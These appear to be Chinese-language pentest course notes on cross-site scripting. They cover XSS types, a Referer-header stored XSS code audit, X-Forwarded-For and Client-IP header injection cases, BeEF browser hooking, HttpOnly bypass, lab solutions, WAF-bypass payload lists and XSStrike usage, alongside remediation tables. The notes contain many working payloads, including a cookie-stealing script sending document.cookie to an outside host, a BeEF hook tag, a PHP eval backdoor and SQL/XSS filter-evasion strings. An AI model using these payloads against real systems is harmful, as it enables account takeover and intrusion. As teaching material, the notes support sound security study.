


## 概述

本页面整理自 XD安全渗透测试课程 Day25-28 四天的 XSS 漏洞专题学习笔记，涵盖从原理分类到实战渗透、从靶场通关到自动化工具的完整知识体系。内容包含 XSS 三大类型成因与利用链、Cookie/Session 会话劫持实战、HttpOnly 绕过多种姿势、XSS 平台与 BeEF 框架攻击演示、11 关靶场逐级绕过分析、WAF 绕过分阶段策略以及 XSStrike 自动化检测实战。**新增某shop v4.0.7 存储型 XSS 实战案例深度复现（Referer 头注入），并补充 HTTP 头伪造（X-Forwarded-For/Client-IP）注入向量导致的存储型 XSS 成因分类与案例（AppCMS、TaoCMS），交叉引用 [[http-header-forgery-stored-xss]] 页面。**

> 交叉引用：本课程基础阶段（Day1-24）概览见 [[xd-security-pentest-basic-stage-notes]]；Pikachu 靶场 XSS 专题复现见 [[pikachu-target-writeup-part2-xss]]；PHP Webshell 基础与中国菜刀/蚁剑连接见 [[php-webshell-fundamentals-chopper-analysis]]；文件包含与伪协议利用见 [[xd-security-file-inclusion-notes]]、[[php伪协议与反序列化利用]]；内网渗透隧道技术见 [[frp内网渗透应用]]、[[internal-network-pivoting-techniques]]；应急响应溯源见 [[xd-security-incident-response-notes]]。

---

## Day25：XSS 原理、分类与基础攻击手法

### 核心原理

XSS（Cross-Site Scripting）属于**被动式攻击**。攻击者构造跨站页面，利用 `<script>`、``、`<svg>` 等标签触发受害者浏览器向目标站点发起 HTTP 请求。若受害者已登录目标站点（持有 Cookie），请求将携带身份凭证，服务端误认为是合法用户操作，从而实现冒充发文、窃取权限等目的。经典案例：Yahoo Mail Yamanner 蠕虫利用 Ajax 窃取通讯录并自我传播。

### 主要危害

| 编号 | 危害类型 | 说明 |
|------|----------|------|
| 1 | 钓鱼欺骗 | 伪造登录框窃取凭证 |
| 2 | 网站挂马 | 注入恶意脚本下发恶意程序 |
| 3 | 身份盗用 | 窃取 Cookie/Session 实现账号接管 |
| 4 | 盗取用户信息 | 读取页面敏感数据（邮箱、手机、身份证等） |
| 5 | 垃圾信息发送 | 利用受害者身份发布垃圾内容 |
| 6 | 劫持用户 Web 行为 | 监听键盘、鼠标、表单提交等交互 |
| 7 | XSS 蠕虫 | 具备自我复制传播能力的恶意脚本 |

> 注：JS 执行受浏览器内核版本影响，不同内核对同一 Payload 表现可能差异。

### 三大分类对比

| 类型 | 别称 | 数据流向 | 典型场景 | 持久性 |
|------|------|----------|----------|--------|
| **反射型** | 非持久型 | URL 参数 → 后端处理 → 直接回显 | 搜索框、错误提示、跳转链接 | 否（需诱导点击） |
| **存储型** | 持久型 | 评论/留言 → 写入数据库 → 读取回显 | 论坛回复、用户资料、订单备注、HTTP 头记录 | 是（所有访问者触发） |
| **DOM 型** | 基于 DOM | URL `#hash` → 前端 JS 解析 → DOM 操作 | 客户端路由、前端模板渲染 | 视前端逻辑而定 |

#### 存储型攻击链示意

```
攻击者发包 X=<script>...> → x.php 写入数据库 → 管理员/用户访问 x.php → 脚本执行 → 窃取 Cookie 发送至攻击者服务器
```

#### 反射型攻击链示意

```
攻击者构造恶意 URL → 诱导受害者点击 → x.php 读取 URL 参数直接回显 → 脚本在受害者浏览器执行
```

#### DOM 型攻击链示意

```
攻击者构造 URL#payload → 受害者访问 → 前端静态 JS 读取 location.hash → document.write/innerHTML 渲染 → 脚本执行
关键差异：DOM 型**不经过后端**，数据流完全在浏览器端闭环，通过查看前端 JS 代码即可判断。
```

### Cookie 与 Session 差异速查

| 维度 | Cookie | Session |
|------|--------|---------|
| 存储位置 | 客户端（浏览器） | 服务端（内存/Redis/数据库） |
| 主要用途 | 保存用户偏好、自动登录 Token | 标识用户状态（购物车、权限校验） |
| 安全性 | 低（可被 JS 读取、篡改、窃取） | 高（仅服务端持有，客户端仅存 Session ID） |
| 典型场景 | “记住我”、个性化配置 | 登录态维持、敏感操作校验 |
| 防护建议 | 敏感信息加密、设置 HttpOnly/Secure/SameSite | 使用随机性强的 Session ID、定期轮换 |

### 常用测试 Payload 速查表

```html
<!-- 基础弹窗 -->
<script language='javascript'>alert('test！');</script>
<script>alert('test')</script>
<svg/onload=alert(1)>

<!-- 属性逃逸 -->
"><svg/onload=alert(1)//
onfocus=javascript:alert(2)
" onmouseover="prompt('xss')" bad=
```

> 实战中需根据输出上下文（HTML 标签内、属性值、JS 变量、CSS、URL）选择对应 Payload，详见 [[pikachu-target-writeup-part2-xss]] “输出场景与转义防御”章节。

### Pikachu 靶场三类型复现要点

| 类型 | 入口 | 关键操作 | 验证方式 |
|------|------|----------|----------|
| 反射型 (GET) | `message` 参数 | 地址栏直接输入 Payload 或修改 `maxlength` 属性 | 弹窗 / 网络请求携带 Cookie |
| 存储型 | 留言板/评论 | 提交含脚本的留言 → 管理员/用户查看 | 无需再次点击，自动触发 |
| DOM 型 | 前端 `onclick` 等事件 | 观察数据包无变化，仅前端 DOM 操作 | 查看页面源码/JS 定位 `location.hash` 读取点 |

---

## Day26：实战渗透——订单系统、Shell箱子、BeEF 框架、某shop 代码审计及 HTTP 头伪造注入向量

### 场景一：军锋真人CS订单系统存储型 XSS 实战

**目标**：通过订单备注注入 XSS，窃取管理员 Cookie 实现后台接管。

#### 环境部署
1. 下载源码：`http://js.down.chinaz.com/201202/jfdd_v2.0.zip`
2. 访问 `127.0.0.1/jfdd/install.php` 安装，配置 `config.php` 可写
3. 前台下单处填写 XSS Payload，后台管理员查看订单触发

#### 攻击链完整复现



#### 关键工具
- **XSS 平台**：搭建或使用公共平台（如 `xss.haozi.me`、`ezxss`）接收 Cookie、截图、User-Agent 等信息
- **Postman / EditThisCookie**：快速注入 Cookie 复现登录态

> 同类实战：[[edu-src-penetration-test-case-study]] 中亦演示存储型 XSS 窃取管理员 Cookie 进而 Getshell 全链路。

### 场景二：Shell 箱子“黑吃黑”后门植入

**原理**：Webshell 管理工具（如中国菜刀、蚁剑、C99shell）本身可能被植入后门，使用者控制的网站反被制作者控制。

#### 复现步骤
1. 搭建 ASP 服务器（小旋风 ASP 服务器，默认 80 端口，可修改 `mian.boX`）
2. 下载 Webshell 箱子（如 `c99shell`、`r57shell`）放入 Web 目录，重命名为 `index.asp`
3. 从 GitHub 获取带后门的 Webshell 变种，植入如下代码：
   ```php
   $password='admin';
   $url=$_SERVER['HTTP_HOST'].$_SERVER['PHP_SELF'];
   echo "<form method=POST><input name=pwd type=password><input type=submit value='>>'></form>";
   if($_POST['pwd']===$password){ eval($_POST['cmd']); }
   ```
4. 访问 Webshell 箱子，触发后门，攻击者可通过隐藏参数执行任意代码

> 防御视角：[[php-webshell-fundamentals-chopper-analysis]] 详细解析一句木马核心原理及蚁剑/菜刀流量特征；[[php-webshell-obfuscation-av-evasion]] 介绍 Webshell 混淆免杀对抗。

### 场景三：BeEF (Browser Exploitation Framework) 实战

#### 安装流程 (Kali / Ubuntu)
```bash
apt-get update
apt-get install beef-xss
# 若依赖报错
apt --fix-broken install
beef-xss  # 启动，默认监听 3000 端口，UI: http://127.0.0.1:3000/ui/panel
默认账号密码：beef / beef
```

#### 攻击演示：结合订单系统
1. 在订单备注注入：`<script src="http://攻击者IP:3000/hook.js"></script>`
2. 管理员查看订单 → 浏览器加载 `hook.js` → 上线 BeEF 控制台
3. 在 BeEF 控制台可执行：
   - 获取 Cookie、键盘记录、剪贴板、屏幕截图
   - 发起网络扫描、内网探测（结合 [[internal-network-pivoting-techniques]]）
   - 社会工程学弹窗（伪造登录框、更新提示）
   - 浏览器代理隧道（作为跳板访问内网）

> BeEF 核心价值：将 XSS 从“窃取 Cookie”升级为“持久化控制浏览器”，配合 [[frp内网渗透应用]] 实现内网横向移动。

### 场景四：某shop v4.0.7 存储型 XSS 深度代码审计与利用链复现

> **来源**：0x00实验室微信归档文章《[学员作品] 某shop存储xss》
> **影响版本**：v4.0.7 (疑为 ECShop 或同系 CMS)

#### 漏洞入口与数据流分析

**核心文件**：`includes/init.php` (多入口模式，`index.php` 首先包含此文件)

**关键代码片段 (init.php ~Line 215)**：
```php
// 初始化访问统计
visit_stats();
```

**跟踪 `visit_stats()` 函数**：
```php
function visit_stats() {
    // ...
    // 从 HTTP Referer 头获取来源域名和路径
    $referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : '';
    // 解析逻辑：取第9位后以 '/' 分割 (去除 http:// 或 https://)
    // 缺陷：仅对 domain 和 path 进行了 addslashes 转义，未对 HTML 实体编码
    $domain = addslashes(substr($referer, 9, strpos($referer, '/', 9) - 9));
    $path = addslashes(substr($referer, strpos($referer, '/', 9)));
    // 写入数据库
    // INSERT INTO stats (domain, path, ...) VALUES ('$domain', '$path', ...)
}
```

**关键点**：
- **污点来源**：`$_SERVER['HTTP_REFERER']` 可控。
- **处理逻辑**：字符串截取拼接入库，**仅 `addslashes` 防 SQL 注入，无输出编码/HTML 实体化**。
- **触发条件**：Cookie 中无 `ecs_id` (首次访问或清空 Cookie 即可触发写入)。

#### 防御机制绕过：`safety.php` 过滤不足

CMS 包含通用防御文件 `safety.php`，但对 XSS 过滤不全面（通常仅过滤 `<script>`、`onerror` 等黑名单）。

**绕过 Payload 构造**：
```html
"><iframe src=javascript:alert`xss`>/
```
- 利用 `">` 闭合前属性/标签。
- 使用 `<iframe>` 标签（可能不在黑名单）。
- 利用 `javascript:` 伪协议执行代码。
- 使用反引号 `` ` `` 代替括号 `()` 绕过关键字过滤。
- 末尾 `/` 配合解析逻辑（以 `/` 结尾）。

#### 触发点：后台流量统计页面

**文件**：`flow_stats.php` (~Line 277)
```php
// 从数据库读取 domain/path 直接拼接输出到 HTML 表格中
// 无 htmlspecialchars / htmlentities 转义
echo "<td>$row[domain]</td><td>$row[path]</td>";
```
管理员访问“流量统计”/“访问来源报表”即可触发。

#### 完整利用链复现步骤

1.  **清空 Cookie**：删除 `ecs_id` 等相关 Cookie。
2.  **发送恶意请求**：
    ```http
    GET /index.php HTTP/1.1
    Host: target.com
    Referer: http://"><iframe src=javascript:alert`xss`>/
    ```
    *(注意：Referer 协议头需为 http:// 开头以通过第9位截取逻辑，Payload 放在域名或路径位置)*
3.  **验证入库**：数据库 `stats` 表中 `domain` 或 `path` 字段存入 Payload。
4.  **管理员触发**：管理员登录后台 -> 报表统计 -> 流量统计/来源统计。
5.  **脚本执行**：浏览器渲染表格单元格时执行 `iframe` 内 `javascript:` 代码。

#### 后渗透利用链 (Post-Exploitation)

后台功能丰富，XSS 获取管理员会话后可直接操作：
- **SQL 执行工具**：CMS 自带数据库管理/运行 SQL 功能 → 任意 SQL 执行 → 写 Shell (`INTO OUTFILE`)、增改数据。
- **文件管理/模板编辑**：修改模板文件植入 Webshell。
- **权限管理**：添加超级管理员账号、修改密码。
- **业务逻辑滥用**：修改商品价格、账户余额、订单状态等。

> **防御启示**：
> 1. **输入过滤不等于输出编码**：`addslashes` 只防 SQLi，存储型 XSS 核心防御在**输出时**做 `htmlspecialchars`。
> 2. **HTTP 头同样是输入源**：`Referer`、`User-Agent`、`X-Forwarded-For` 等头常被用于统计、日志、审计，极易被忽略导致存储型/盲打 XSS。
> 3. **黑名单不可靠**：`safety.php` 黑名单模式必被绕过，应采用 CSP、输出编码、白名单策略。

### 场景五：HTTP 头伪造（X-Forwarded-For / Client-IP）导致的存储型 XSS 实战案例

> **来源**：226安全团队微信归档文章《程序员：记录一下用户ip地址怎么也能被黑？》
> **核心观点**：许多程序通过 `HTTP_X_FORWARDED_FOR` (XFF) 或 `HTTP_CLIENT_IP` 头获取客户端真实 IP，但这两个头**完全可由客户端伪造**。若后端直接将该值入库并在前端/后台展示时未进行 HTML 实体编码，将引发**存储型 XSS**。

#### 成因分类新增：HTTP 头伪造注入向量

在存储型 XSS 成因分类中，除常见的评论、留言、用户资料外，需新增 **“HTTP 头字段注入”** 类别：
- **向量特征**：污点来源为 `$_SERVER['HTTP_X_FORWARDED_FOR']`、`$_SERVER['HTTP_CLIENT_IP']` 等代理/客户端 IP 头。
- **危害放大**：这些头常用于**访问统计、日志审计、防刷限制、后台登录记录**等功能，触发点往往在管理后台（高权限），属于典型的**盲打/存储型 XSS**。
- **绕过 WAF**：HTTP 头往往不在常规参数检测范围内，易绕过基于 URL/Body 的 WAF 规则。

> 详细原理、利用链构造及修复方案见专题页面：[[http-header-forgery-stored-xss]]。

#### 案例一：AppCMS 1.3.890 版本 XFF 头存储型 XSS

**漏洞复现流程**：
1. 网站留言处提交正常留言，抓包。
2. 在 HTTP 头中添加伪造 XFF 头携带 XSS Payload：
   ```http
   X-Forwarded-For: <script>document.location='http://xss-platform.com/?c='+document.cookie</script>
   ```
3. 多次提交/刷新触发入库逻辑。
4. 管理员后台查看留言/访问日志/IP 统计页面 → 脚本执行 → Cookie 窃取。

**代码层面根因**：后端使用 `$_SERVER['HTTP_X_FORWARDED_FOR']` 直接入库，前端展示 IP 列表时未 `htmlspecialchars`。

#### 案例二：TaoCMS v2.5Beta5 Client-IP 头存储型 XSS

**漏洞复现流程**：
1. 进入用户评论界面，随意提交评论，抓包。
2. 在 HTTP 头中添加伪造 Client-IP 头：
   ```http
   Client-IP: <script>alert(/xxx/)</script>
   ```
3. 提交评论，Payload 入库。
4. 管理员/用户查看评论列表或 IP 统计页面 → 弹窗触发。

**代码层面根因**：同 AppCMS，`$_SERVER['HTTP_CLIENT_IP']` 直接拼接 SQL 入库，输出时无转义。

#### 扩展危害：不仅限于 XSS

伪造 IP 头内容可控，落点决定危害：
- **SQL 注入**：若入库使用拼接而非预编译，Payload 闭合单引号可注入（如 `' union select ...`）。
- **代码执行**：若 IP 值被写入配置文件、模板文件或日志文件并被解析执行。
- **逻辑绕过**：伪造内网 IP (`127.0.0.1`)、管理员 IP 绕过基于 IP 的访问控制、限流、投票限制。

#### 修复建议

| 层面 | 措施 |
|------|------|
| **输入验证** | 严格校验 IP 格式（正则 `^(\d{1,3}\.){3}\d{1,3}$`），拒绝非 IP 字符。 |
| **来源可信判断** | 仅在**受信任代理**（如 Nginx `set_real_ip_from` 配置的内网 IP）转发的请求中信任 `X-Forwarded-For`；直接访问请求忽略该头。 |
| **输出编码** | **核心防御**：所有从数据库读回用于 HTML 页面展示的 IP 字段，必须经过 `htmlspecialchars()` / `htmlentities()` 编码。 |
| **参数化查询** | 入库使用 Prepared Statement 防 SQL 注入。 |
| **日志脱敏** | 运维/审计日志系统展示 IP 时同步做转义，防止日志查看后台 XSS。 |

---

## Day27：HttpOnly 绕过与 XSS 靶场 11 关通关详解

### HttpOnly 机制与局限

| 特性 | 说明 |
|------|------|
| 目的 | 防止客户端脚本（`document.cookie`）读取 Cookie，缓解 XSS 窃取会话 |
| 设置方式 | `Set-Cookie: sessionid=xxx; HttpOnly; Secure; SameSite=Strict` |
| 支持语言 | PHP 5.2+ (`setcookie` 第 7 参数)、Java Servlet 3.0+ (`cookie.setHttpOnly(true)`)、C# (`HttpCookie.HttpOnly=true`) |
| 绕过前提 | **无法直接读取**，需寻找**间接获取凭证**或**绕过浏览器限制**的路径 |

#### Java 低版本变通方案 (Servlet 2.5 / Tomcat < 7)
```java
// 手动添加 Header 实现 HttpOnly
response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly");
response.addHeader("Set-Cookie", "timeout=30; Path=/test; HttpOnly; Secure");
```

### HttpOnly 绕过实战姿势

| 编号 | 技术 | 适用场景 | 核心思路 |
|------|------|----------|----------|
| 1 | **表单劫持/自动填充窃取** | 登录页面存在 XSS | 构造隐藏表单，诱导浏览器自动填充账号密码 → JS 读取 `value` |
| 2 | **键盘记录** | 后台存储型 XSS | 监听 `onkeydown` 事件，记录管理员输入的账号密码 |
| 3 | **CSRF 修改密码/绑定手机** | 关键操作无二次验证 | 利用 XSS 发起 CSRF 请求修改账号绑定，实现账号接管 |
| 4 | **浏览器漏洞利用** | 旧版浏览器/插件 | 利用 IE 等旧浏览器 `HttpOnly` 实现缺陷（如 `XMLHttpRequest` 获取响应头） |
| 5 | **中间人/网络层劫持** | 非 HTTPS / HSTS 缺失 | 结合 [[0w1club-week2-wifi-hijacking-arp-spoofing]] ARP 欺骗劫持明文流量 |
| 6 | **XSS 获取 CSRF Token + 伪造请求** | 关键接口有 Token 保护 | 解析页面 DOM 获取 Token → 发起带 Token 的敏感操作请求 |

> 核心原则：**HttpOnly 仅保护 Cookie 读取，不防止 XSS 执行任意 JS**。只要能执行 JS，即可通过上述间接方式达到同等效果。

### XSS 靶场 11 关逐级绕过分析 (xss-labs / xss-haozi 类)

| 关卡 | 过滤特征 | 绕过核心技术 | 代表 Payload |
|------|----------|--------------|--------------|
| 1 | 无过滤 | 直接注入 | `<script>alert(1)</script>` |
| 2 | HTML 实体编码 (`<` `>` `"` → `&lt;` `&gt;` `&quot;`) | 属性闭合 + 事件处理 | `"><svg/onload=alert(1)>` |
| 3 | 标签名过滤 (`<script>` 等) | 利用非标签向量 | `'onclick='alert(1)` (需用户交互) |
| 4 | 删除 `<` `>` | 同第 3 关，利用属性事件 | `'onmouseover='alert(1)` |
| 5 | 同第 2 关，但可控 `href` | `javascript:` 伪协议 | `<a href="javascript:alert(1)">click</a>` |
| 6 | 过滤 `href` 关键字 | 大小写混淆 | `<a HrEf="javascript:alert(1)">click</a>` |
| 7 | 单次替换过滤 (非递归) | 双写绕过 | `<scr<script>ipt>alert(1)</scr</script>ipt>` |
| 8 | 大小写+双写均过滤 | Unicode/十六进制/HTML 实体编码 | `` |
| 9 | 检测 `http://` 协议头 | 编码绕过 + 注释闭合 | `javascript://comment%0aalert(1)` 或 `&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;alert(1)` |
| 10 | 隐藏 input 参数注入，过滤 `<` `>` | 修改 `type` 属性 + 事件 | `?t_sort=" type="text" onclick="alert(1)"` |
| 11 | 同第 10 关 + 双引号实体化 + `Referer` 可控 | HTTP 头注入 `Referer` | `Referer: " type="text" onclick="alert(1)"` |

#### 关键技术总结
- **输出上下文决定 Payload 结构**：HTML 文本节点 → 标签闭合；属性值 → 引号闭合 + 事件；JS 变量 → 引号/括号闭合 + 语句拼接；CSS → `expression()`/`url()`；URL → `javascript:`/`data:`
- **编码层层绕过**：URL 编码 → HTML 实体 → Unicode → 十六进制 → Base64 → 双写 → 大小写 → 注释插入
- **浏览器解析差异**：HTML 解析器容错性高，利用畸形标签（`<svg/onload=>`、``）触发执行
- **HTTP 头可控点**：`Referer`、`User-Agent`、`X-Forwarded-For`、`Client-IP`、`Cookie` 等均可能反射在页面中，形成注入面（正如某shop、AppCMS、TaoCMS 案例所示）

> 完整通关录屏与更多变种见 [[xss-haozi-lab-walkthrough]]、[[pikachu-target-writeup-part2-xss]]。

---

## Day28：WAF 绕过体系与 XSStrike 自动化实战

### WAF 分类与部署位置

| 类型 | 代表产品 | 流量路径 | 特点 |
|------|----------|----------|------|
| 云 WAF | 阿里云盾、腾讯云 WAF、安全宝、加速乐 | DNS → CDN/WAF 节点 → 源站 | 需修改 DNS 解析，可通过寻找源站真实 IP 绕过 |
| 主机防护软件 | 安全狗、宝塔防火墙、360Webscan、ModSecurity、ngx_lua_waf | 进程/内核模块挂载 Web 端口 | 规则更新成本高，可针对性研究规则绕过 |
| 硬件 WAF/IPS | 绿盟、天融信、山石网科 | 网关/旁路部署，流量清洗后转发 | 性能强，规则库商业化，绕过难度较大 |

### 分阶段绕过策略矩阵

#### 身份认证阶段绕过 (白名单机制)
| 手法 | 原理 | 典型案例 |
|------|------|----------|
| 伪造搜索引擎 UA | 早期安全狗放行 `Googlebot`/`Baiduspider` | `User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)` |
| 伪造白名单目录 | 360Webscan 放行 `/admin/` `/install/` 等 | `/news.php/admin?id=1` 或 `/admin/..\\news.php?id=1` |
| 直击源站 IP | 云 WAF 仅保护域名解析路径 | C段扫描、SSL 证书透明度日志、历史 DNS 记录、社工获取真实 IP |

#### 数据包解析阶段绕过
| 手法 | 说明 | 示例 |
|------|------|------|
| 编码绕过 | 多层 URL 编码、Unicode、Base64 | `%253Cscript%253Ealert(1)%253C%252Fscript%253E` |
| 请求方式/参数位置变更 | WAF 仅检测 GET，忽略 POST/Cookie/Header | `POST /?id=1` Body: `id=union select` / `Cookie: id=payload` |
| 参数污染 (HPP) | 后端取最后/数组值，WAF 仅检测单值 | `?id=1&id=union&id=select&id=user,password` |
| Content-Type 变形 | `multipart/form-data` 绕过纯 URL 规则 | 文件上传字段夹带恶意参数 |

#### 规则匹配阶段绕过 (核心攻防)
| 技术分类 | 绕过原理 | MySQL 示例 | SQL Server 示例 |
|----------|----------|------------|-----------------|
| 特殊字符替换空格 | 利用注释/换行/制表符替代空格 | `%0a`、`%09`、`/**/` | `/**/` |
| 关键字拼接/分割 | 字符串连接函数/操作符打散关键字 | `concat('un','ion')` | `'un'+'ion'` |
| 内联注释保护关键字 | MySQL 特有 `/*! */` 语法执行内部 SQL | `/!union/ /!select/ 1,2,3` | 不支持 |
| 大小写混淆 | 规则未开启不区分大小写 | `UnIoN SeLeCt` | `UnIoN SeLeCt` |
| 编码/转义混淆 | Hex/Unicode/HTML 实体 | `0x756e696f6e` | `N'union'` |
| 语法特性利用 | 利用数据库特有函数/语法 | `/*!50000union*/` | `/*!union*/` |

### XSS 专用 WAF 绕过 Payload 速查 (按向量分类)

#### `<script>` 标签变种
```html
<ScRiPt>alert(1)</ScRiPt>
<script//>alert(1)</script>
<script/alert(1)/>
<script>alert(1)<!--
```

#### 事件处理器 (HTML5 150+ 事件)
```html
<svg/onload=alert(1)>
<body/onfocus=alert(1) autofocus>
<input/onblur=alert(1) autofocus>
<select/onchange=alert(1) autofocus>
<video/onerror=alert(1) src=x>
<details/open/ontoggle=alert(1)>
<marquee/onstart=alert(1)>
```

#### 行内样式 / CSS 注入
```html
<div style="width:expression(alert(1))">  <!-- IE7- -->
<style>@import'javascript:alert(1)';</style>
<link rel=stylesheet href="javascript:alert(1)">
```

#### `javascript:` 伪协议
```html
<a href="javascript:alert(1)">click</a>
<iframe src="javascript:alert(1)">
<form action="javascript:alert(1)"><input type=submit>
```

#### 字符编码多层嵌套
```html


<svg onload="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">
```

#### 长度限制绕过
```html
<!-- 利用外部 JS -->
<svg/onload=eval(URL)>
<!-- 利用 location.hash -->
<svg/onload=eval(location.hash.slice(1))>#alert(1)
<!-- 利用 window.name 跨域传递 -->
<iframe src="http://attacker.com/name.html" name="payload"></iframe>
```

#### 标签嵌套/畸形标签 (浏览器容错解析)
```html
<<script>alert(1)//<</script>
<iframe/onload=alert(1)>
<math><mtext></math><svg/onload=alert(1)>
```

#### 基于上下文的绕过 (Context-Aware)
| 上下文 | 典型过滤 | 绕过思路 |
|--------|----------|----------|
| 属性值 (双引号) | 过滤 `"` `>` | `"` 闭合 → `onload=alert(1)` |
| 属性值 (单引号) | 过滤 `'` `>` | `'` 闭合 → `onload=alert(1)` |
| 无引号属性值 | 过滤空格 `>` | `` `onload=alert(1)` `` (反引号分隔) |
| JS 字符串变量 | 过滤引号括号 | `\`-alert(1)-\`` (模板字符串) / `+alert(1)+` |
| `<script>` 内部 | 过滤关键字 | `eval(atob('YWxlcnQoMSk='))` / `Function('alert(1)')()` |
| CSS `url()` | 过滤 `javascript:` | `url("data:image/svg+xml,<svg/onload=alert(1)>")` |

#### 编码/特殊字节绕过
| 技术 | Payload 示例 | 适用条件 |
|------|--------------|----------|
| 空字节 (`%00`/`\x00`) | `<scri%00pt>alert(1)</scri%00pt>` | PHP < 5.3.9 / 某些 WAF 解析截断 |
| Unicode 分隔符 (U+2028/U+2029) | `<svg onload&#x2028;=alert(1)>` | JS 引擎将其视为行终止符 |
| 语法错误容错 | `<script>alert(1)<!--` | 浏览器自动闭合标签 |
| 双重 URL 编码 | `%253Cscript%253E` | WAF 仅单次解码 |

#### 特定 WAF 规则绕过
| WAF | 规则特征 | 绕过 Payload |
|-----|----------|--------------|
| ModSecurity (OWASP CRS) | 正则匹配标签/事件 | `<svg/onload=alert(1)>` + 空字节 + 编码嵌套 |
| WebKnight | 严格标签白名单 | 利用 `<math>` `<svg>` `<details>` 等非黑名单标签 |
| 安全狗 (旧版) | UA 白名单 + 简单正则 | 伪造 Googlebot UA + `%0a` 替换空格 |
| 宝塔/阿里云盾 | 语义分析 + 威胁情报 | 多层编码 + 参数污染 + 分块传输 (`Transfer-Encoding: chunked`) |

### 安全修复方案清单

| 层面 | 措施 | 实现要点 |
|------|------|----------|
| **输出编码 (核心)** | HTML 实体编码 / JS 编码 / CSS 编码 / URL 编码 | 使用成熟库：Java `ESAPI`/`OWASP Encoder`、PHP `htmlspecialchars`/`htmlentities`、Go `html/template`、Python `markupsafe`、Node `escape-html` |
| **输入验证** | 白名单校验 (长度、类型、格式、范围) | 正则/类型约束，拒绝非预期字符 |
| **HttpOnly + Secure + SameSite** | 会话 Cookie 全链路保护 | `Set-Cookie: sid=xxx; HttpOnly; Secure; SameSite=Strict` |
| **CSP (Content Security Policy)** | 限制脚本来源、禁止内联脚本、禁止 `eval` | `Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-xxx'; object-src 'none'; base-uri 'self'` |
| **WAF/运行时防护** | 部署 ModSecurity + CRS / OpenRASP / 云 WAF | 虚拟补丁、攻击特征阻断、日志审计 |
| **框架级防御** | 模板引擎自动转义、XSS Filter (React/Vue/Angular 默认开启) | 避免 `dangerouslySetInnerHTML` / `v-html` / `[innerHTML]` 等危险 API |
| **安全开发生命周期** | 代码审计、SAST/DAST/IAST、安全培训 | 左移，CI/CD 集成安全扫描 |

> 参考：PHP 修复 [[php-file-inclusion-vulnerability]]、Java 修复 [[java-preparedstatement-sql-injection-defense]] 同理可推演 XSS 防护模式。

---

## XSStrike：自动化 XSS 检测与 WAF 绕过实战

### 项目地址
> https://github.com/s0md3v/XSStrike

### 核心能力
- 智能 Payload 生成 (上下文感知、编码变形、WAF 绕过模糊测试)
- 反射型/存储型/DOM 型/盲打 XSS 全覆盖
- 爬虫发现隐藏参数、表单、端点
- 支持 GET/POST/JSON/Headers/Cookie 多注入点
- 内置 WAF 指纹识别与针对性绕过策略
- 支持代理、认证、自定义 Header、延迟控制

### 安装与依赖
```bash
git clone https://github.com/s0md3v/XSStrike
cd XSStrike
pip3 install -r requirements.txt  # Python 3.6+
# 核心依赖: requests, beautifulsoup4, lxml, fuzzywuzzy, tqdm
```

### 核心参数速查表

| 参数 | 说明 | 示例 |
|------|------|------|
| `-u, --url` | 目标 URL (含注入点标记) | `-u "http://target.com/search?q=test"` |
| `--data` | POST 数据 (表单/JSON) | `--data "q=query" / --data '{"q":"query"}' --json` |
| `--crawl` | 启用爬虫发现端点 | `--crawl -l 3` (深度 3) |
| `--seeds` | 种子 URL 列表文件 | `--seeds urls.txt` |
| `--fuzzer` | 启用 WAF 模糊测试模式 | `--fuzzer -d 1` (延迟 1s) |
| `--blind` | 盲打 XSS 模式 (需配合 XSS 平台) | `--blind --hook-url http://xss.haozi.me/hook.js` |
| `--skip-dom` | 跳过 DOM 扫描 (提速) | `--skip-dom` |
| `--proxy` | 代理 (Burp 联动) | `--proxy http://127.0.0.1:8080` |
| `--headers` | 自定义 Header 文件 | `--headers headers.txt` |
| `--cookie` | Cookie 字符串 | `--cookie "PHPSESSID=abc; role=admin"` |
| `--update` | 检查并更新版本 | `--update` |

### 实战演示场景

#### 场景 1：GET 型反射 XSS 基础扫描
```bash
python3 xsstrike.py -u "http://192.168.195.128/xss-labs/level1.php?name=test"
# 输出: 发现注入点、上下文分析、生成绕过 Payload、验证执行
```

#### 场景 2：POST 表单 / JSON 接口检测
```bash
# 表单
python3 xsstrike.py -u "http://target.com/login.php" --data "username=test&password=test"
# JSON API
python3 xsstrike.py -u "http://target.com/api/search" --data '{"keyword":"test"}' --json
```

#### 场景 3：URL 路径参数注入 (RESTful)
```bash
python3 xsstrike.py -u "http://target.com/api/user/test" --path
```

#### 场景 4：深度爬虫 + 全站扫描
```bash
python3 xsstrike.py -u "http://target.com" --crawl -l 3 --seeds seeds.txt --fuzzer -d 1
